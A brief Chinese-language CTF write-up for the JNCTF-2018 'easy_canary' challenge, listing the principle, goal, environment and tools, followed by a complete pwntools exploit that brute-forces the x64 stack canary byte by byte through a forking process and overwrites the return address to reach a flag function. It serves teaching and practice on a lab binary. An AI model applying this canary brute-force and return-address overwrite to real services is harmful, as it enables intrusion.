 # JNCTF-2018 : easy_canary

## **【原理】**
栈溢出

## **【目的】**
熟悉x64`canary`值的具体分布、fork的知识及简单栈溢出

## **【环境】**
Ubuntu 16.04

## **【工具】**
gdb、pwntools、 

## **【步骤】**
```python
#!/usr/bin/env python2
#coding:utf-8

from pwn import *
context.log_level = 'debug'

p = process('./easy_canary')

p.recvuntil('Plz leave your name:')
canary = '\x00'
for j in range(7):
    for i in range(0x100):
        p.send('a'*104 + canary + chr(i))
        a = p.recvuntil('Plz leave your name:')
        if 'recv' in a:
            canary += chr(i)
            break

p.sendline('a'*104 + canary + 'a'*8 + p64(0x400886))

flag = p.recv()
p.close()
log.success('flag is:' + flag)
```

## **【总结】**
栈溢出太简单了

